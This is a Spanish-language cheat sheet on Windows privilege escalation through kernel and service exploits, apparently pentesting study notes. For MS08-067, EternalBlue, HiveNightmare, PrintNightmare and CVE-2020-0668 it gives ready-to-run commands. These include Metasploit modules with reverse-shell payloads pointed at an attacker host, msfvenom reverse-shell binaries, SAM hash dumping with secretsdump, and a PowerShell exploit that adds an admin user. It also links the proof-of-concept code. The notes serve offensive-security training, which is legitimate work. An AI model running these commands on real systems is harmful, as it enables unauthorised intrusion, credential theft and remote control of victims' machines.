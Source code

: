 
# Escalada de Privilegios en Windows - Kernel Exploits

## Introducción
Mantener todos los equipos Windows actualizados es difícil. Incluso con SCCM o WSUS, siempre hay sistemas sin parches que pueden explotarse. Existen múltiples vulnerabilidades de kernel y RCE que afectan desde Windows XP hasta Windows Server 2019.

Este documento resume las vulnerabilidades más notables, sus métodos de explotación y ejemplos prácticos.

## Vulnerabilidades Notables y Ejemplos

### MS08-067
- **Tipo**: RCE en servicio RPC/SMB.
- **Sistemas Afectados**: Windows 2000/2003/XP/Vista/2008.
- **Descripción**: Error en el manejo de solicitudes RPC permite ejecución como SYSTEM.
- **Uso en Escalada**: Si SMB (445) está bloqueado externamente pero accesible localmente, se puede hacer port-forward y explotar.
- **Explotación**:
```bash
msfconsole
use exploit/windows/smb/ms08_067_netapi
set RHOST <victima>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <atacante>
exploit
```
- **Referencia**: [MS08-067 Metasploit](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

---

### MS17-010 (EternalBlue)
- **Tipo**: RCE en SMBv1.
- **Descripción**: SMBv1 maneja incorrectamente paquetes malformados → RCE como SYSTEM.
- **Uso**: Puede ser usado remotamente o para escalada local si 445 solo es accesible internamente.
- **Explotación**:
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <victima>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <atacante>
exploit
```
- **Referencia**: [EternalBlue PoC](https://github.com/worawit/MS17-010)

---

### CVE-2021-36934 (HiveNightmare / SeriousSam)
- **Tipo**: LPE - Lectura de hives del registro SAM/SYSTEM/SECURITY.
- **Descripción**: Usuarios estándar pueden leer los hives sensibles y extraer hashes.
- **Chequeo**:
```cmd
icacls c:\Windows\System32\config\SAM
```
- **Explotación**:
```powershell
HiveNightmare.exe
impacket-secretsdump -sam SAM-<fecha> -system SYSTEM-<fecha> -security SECURITY-<fecha> local
```
- **Referencia**: [HiveNightmare PoC](https://github.com/GossiTheDog/HiveNightmare)

---

### CVE-2021-1675 / CVE-2021-34527 (PrintNightmare)
- **Tipo**: LPE/RCE vía Print Spooler.
- **Descripción**: RpcAddPrinterDriver permite cargar DLL maliciosas como SYSTEM sin privilegio SeLoadDriverPrivilege.
- **Comprobación**: si no existe, obtendremos un "path does not exist"
```powershell
ls \\localhost\pipe\spoolss
```
- **Explotación (PowerShell PoC)**:
```powershell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"
```
- **Referencia**: [PrintNightmare PoC cube0x0](https://github.com/cube0x0/CVE-2021-1675)


---

### CVE-2020-0668
- **Tipo**: LPE - File Arbitrary Move.
- **Descripción**: Windows Service Tracing permite mover archivos arbitrarios con privilegios SYSTEM usando enlaces simbólicos.
- **Proceso**:
  1. Se crea un payload malicioso (`maintenanceservice.exe`) con `msfvenom`.
  2. El exploit mueve el archivo a `C:\Program Files (x86)\Mozilla Maintenance Service\` reemplazando el binario legítimo.
  3. El movimiento **corrompe el binario** (error 216) → Por eso se usan **dos copias**: una se mueve (corrupta) para ganar control total (F) y otra se usa luego para reemplazarla manualmente. Se gana control total porque estamos moviendo un fichero creado por nosotros (tras obtenerlo de la máquina atacante) y windows mantiene los permisos de los ficheros que mueve.
- **Chequeo de permisos antes y después**:
```cmd
# Antes del exploit (solo RX)
icacls "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

# Después del exploit (Full Control)
icacls "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
- **Payload**:
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=8443 -f exe > maintenanceservice.exe
```

Alternativa payload sin metasploit:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ATACANTE> LPORT=4444 -f exe -o shell_reverse.exe`

- **Ejecutar exploit**:
```cmd
CVE-2020-0668.exe C:\Users\victima\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```
- **Enlace PoC**: [CVE-2020-0668 Exploit](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668)

---

### ALPC Task Scheduler 0-Day
- **Tipo**: LPE.
- **Descripción**: Usa SchRpcSetSecurity API para modificar DACLs y cargar DLL como SYSTEM vía Spooler.
- **Referencia**: Explorado en HackTheBox “Hackback”.

---

## Enumeración de Parches Faltantes

- **Comandos para listar actualizaciones instaladas**:
```powershell
systeminfo
wmic qfe list brief
Get-Hotfix
```

Buscar KB faltantes en [Microsoft Update Catalog](https://www.catalog.update.microsoft.com/).

---

## Links Importantes

- **MS08-067 Exploit**: https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
- **MS17-010 PoC**: https://github.com/worawit/MS17-010
- **HiveNightmare PoC**: https://github.com/GossiTheDog/HiveNightmare
- **PrintNightmare PoC**: https://github.com/cube0x0/CVE-2021-1675
- **CVE-2020-0668 Exploit**: https://github.com/RedCursorSecurityConsulting/CVE-2020-0668

---

## Notas Clave

- Muchas vulnerabilidades antiguas siguen presentes en entornos empresariales.
- EternalBlue (MS17-010) aún es común en infraestructuras antiguas.
- PrintNightmare afecta incluso a controladores de dominio.
- HiveNightmare permite extraer hashes sin privilegios.
- CVE-2020-0668 necesita combinarse con binarios de terceros vulnerables (ej. Mozilla Maintenance Service).

---
